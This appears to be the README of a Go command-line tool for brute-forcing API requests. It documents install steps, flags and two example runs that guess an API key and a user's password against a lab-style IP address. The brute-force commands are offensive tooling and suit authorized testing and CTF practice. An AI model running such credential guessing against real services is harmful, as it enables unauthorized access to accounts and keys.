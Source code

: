 # GO GM v3.0

GO GM is a tool used to brute-force API's request:

1. ... Brut force with a different payload (POST)
1. ... Easy to use
1. ... Use concurency
1. ... Work in command line
1. ... Faster that some random script in Python

## How to install it ?

```bash
    git clone https://github.com/gmorinn/go-hack && cd go-hack && make re
    ./go-gm {...flags}
```

## How to use it ?

```bash
    -u, --url			    {URL_API} Url of the API
	-t, --threads			{THREADS} Number of concurrent threads (default=3)
	-w, --wordlist			{WORDLIST} Path to the wordlist
	-m, --method			{METHOD} Method of the request. Default=POST
	-p, --payload			{PAYLOAD} The attribute you want to modify. Example: -p email -w email.txt
	-l, --limit			    {LIMIT} Stop the program when the number of request equals ${limit}
	-gp, --general-payloa	{GENERAL_PAYLOAD} The payload that does not change with each request. Exemple: -gp "{"email":"guillaume@test.com"}"
	-r, --response			{RESPONSE} Corresponds to the response or message returned by the API. If the response of the request contains the response specified then the program stops. Example: -r "{"success":"true"}"
	-n, --not			    {NOT} Stop the program when the request send a response different of the -r specified. Exemple: -r "INVALD API KEY" -n => The program stop when the response is different that "INVALID API KEY"
```

### NOTICE
- Only one url is taken into account.
- Only one attribute is possible in the payload for version 1.
- All flags are not mandatory, except -u && -w && (-r || -l)
- You can stop the program at any moment with CRTL + C

## Example

- Find the API Key when the response of the request is different from "invalid api key"
```bash
./go-gm -u http://10.10.159.167:8081/sign -p key -w key.txt -m POST -r "invalid api key" --not
```

-  Find the password of a user and when the response contains "{"success":"true"}"
```bash
 ./go-gm -u http://10.10.159.167:8081/sign -password -w password.txt -m POST -r "{"success":"true"}" --general-payload "{"email":"guillaume@test.com"}"
 ```